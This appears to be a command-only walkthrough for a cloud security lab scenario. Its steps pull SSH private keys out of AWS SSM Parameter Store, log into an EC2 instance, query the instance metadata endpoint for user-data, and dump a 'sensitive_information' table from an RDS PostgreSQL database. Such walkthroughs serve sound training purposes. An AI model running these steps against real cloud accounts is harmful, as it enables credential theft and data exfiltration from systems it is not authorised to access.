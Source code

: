 `aws ssm describe-parameters --profile scenario6_1_user`

`aws ssm get-parameter --name <private key name> --profile scenario6_1_user`

`echo -e "<private key>" > ec2_ssh_key`

`chmod 400 ec2_ssh_key`

`aws ssm get-parameter --name <public key name> --profile scenario6_1_user`

`echo -e "<public key>" > ec2_ssh_key.pub`

`aws ec2 describe-instances --profile scenario6_1_user`

`ssh -i ec2_ssh_key ubuntu@<instance ip>`

# BRANCH A:

`sudo apt update && sudo apt install awscli -y`

`aws lambda list-functions --region eu-central-1`

`aws rds describe-db-instances --profile scenario6_1_user`

# BRANCH B:

`curl http://169.254.169.254/latest/user-data`

`psql -h <rds db host/ip> -U sc6admin -d SecurityChallenge`

`\d`

`select * from sensitive_information;`